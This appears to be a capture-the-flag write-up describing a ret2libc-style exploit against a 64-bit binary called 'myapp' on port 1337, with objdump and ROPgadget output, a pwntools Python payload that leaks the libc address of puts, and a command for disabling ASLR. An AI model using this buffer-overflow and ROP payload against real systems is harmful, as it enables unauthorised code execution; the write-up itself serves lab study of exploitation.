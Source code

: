![](./logo.png)

# USER

Looking at the page source we can seen the message

```html
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

The binary is a `64-bit` application. Therefore, consideration needs to be made for the exploit.

Instead of passing arguments on the stack like a `32-bit` application, `64-bit` applications use registers in the 
order listed below: 
```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+
```

### First attempt - `puts` leak
The idea to exploit this application is to leak the address of the `libc` version of `puts` so we can form an offset to the position of the `libc` import.


Running:
```
$ objdump -D myapp | grep puts

0000000000401030 <puts@plt>:
  401030:       ff 25 e2 2f 00 00       jmpq   *0x2fe2(%rip)        # 404018 <puts@GLIBC_2.2.5>
  4011a1:       e8 8a fe ff ff          callq  401030 <puts@plt>
```

Providing us with:
```
puts@plt: 0x4011a1
puts@got: 0x404018
```

We then also need a `pop rdi; ret` command. This can be detected with `ROPgadget`. This will put the argument on the stack. In this case we want to print the position of the `puts@got` to find the addresses that change each execution.

Running:
```
$ ROPgadget --binary myapp | grep "pop rdi"

0x000000000040120b : pop rdi ; ret
```
Giving us the address of the gadget.

Putting this together will leak the addresses we need. 

A minimal working example could be like so:
```python
from pwn import *

BUFFER_LEN = 112 + 8 # 112 + BASE POINTER
BUFFER = b"A" * BUFFER_LEN

# # ROUND 1
g1      = p64(0x40120b) # pop rdi ; ret
got_put = p64(0x404018)
plt_put = p64(0x401030)
main    = p64(0x40115f)

payload = BUFFER
payload += g1
payload += got_put
payload += plt_put
payload += main

# [...]

# libc puts location
leaked_puts = io.recvline().strip().ljust(8, b'\x00')
```

The line: 
```python
main    = p64(0x40115f)
```

Is required to stop the program from crashing, as it sets up the program for a second loop.


# Commands

### Deactivate stack randomization

```
sysctl kernel.randomize_va_space=0
```

### Viewing writeable memory 

```
readelf --sections <BINARY>
```
```
readelf -x .data myapp
```